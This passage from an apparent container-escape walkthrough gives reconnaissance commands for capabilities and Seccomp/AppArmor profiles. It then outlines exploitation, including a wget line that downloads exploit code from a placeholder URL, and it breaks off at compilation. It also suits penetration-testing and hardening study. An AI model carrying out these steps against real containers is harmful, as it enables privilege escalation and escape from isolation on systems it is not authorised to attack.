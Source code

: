 ```bash
cat /proc/self/status | grep CapEff
```

*   **Explanation:** This command reads the `CapEff` field from the `/proc/self/status` file, which shows the effective capabilities of the current process.
*   **Why:** Verifies whether the container has the necessary capabilities to execute the exploit (e.g., `CAP_SYS_ADMIN`).
*   **Expected Output:** `CapEff:  0000000000000000` (No capabilities) OR `CapEff:  0000003fffffffff` (All capabilities).
*   **Look For:** Presence or absence of required capabilities like `CAP_SYS_ADMIN`, `CAP_DAC_OVERRIDE`, etc., depending on the exploit.
*   **Contribution:** Confirms whether the exploit can be executed directly from the container.  If capabilities are missing, further exploitation or privilege escalation *within* the container might be required before attempting to exploit the kernel vulnerability.

**Step 5: Check for Seccomp/AppArmor Restrictions (Example)**

```bash
cat /proc/self/attr/current
```

*   **Explanation:** This command attempts to read the security context of the current process. If Seccomp or AppArmor are in place, this will show their profile.
*   **Why:** Seccomp and AppArmor restrict system calls and access to resources, respectively. These restrictions can prevent an exploit from working.
*   **Expected Output:** May be empty if no restrictions are in place. Otherwise, will show profile being used.
*   **Look For:** Evidence of strict Seccomp or AppArmor profiles that might block the exploit's system calls or file access.
*   **Contribution:** Determine if security restrictions need to be bypassed or circumvented.

**Phase 2: Exploitation (Conceptual Outline - Highly Dependent on Specific Exploit)**

**The following steps are a conceptual outline.  The specific commands and techniques will vary significantly depending on the chosen exploit (e.g. Dirty Pipe, CVE-2023-32629).  Refer to exploit-specific documentation for precise instructions.**

**Step 6: Download or Transfer the Exploit Code (Conceptual)**

```bash
# Example using wget (assuming network access from the container)
wget <exploit_url>/exploit.c #This URL should point to compiled binary.
```

*   **Explanation:** Downloads the exploit code (written in C in this example) to the container.  Alternative methods like `curl` or `scp` can be used depending on available tools and network configuration.  This step might involve compiling source code within the container, which requires a compiler (e.g., `gcc`). Often easier to upload a pre-compiled binary.
*   **Why:** Provides the necessary code to exploit the kernel vulnerability.
*   **Expected Output:** Successful download of the exploit code.
*   **Look For:** Confirm that the file downloaded correctly and has the expected size and checksum (if available).
*   **Contribution:** Stage the exploit within the container.

**Step 7: Compile the Exploit (If Necessary - Conceptual)**
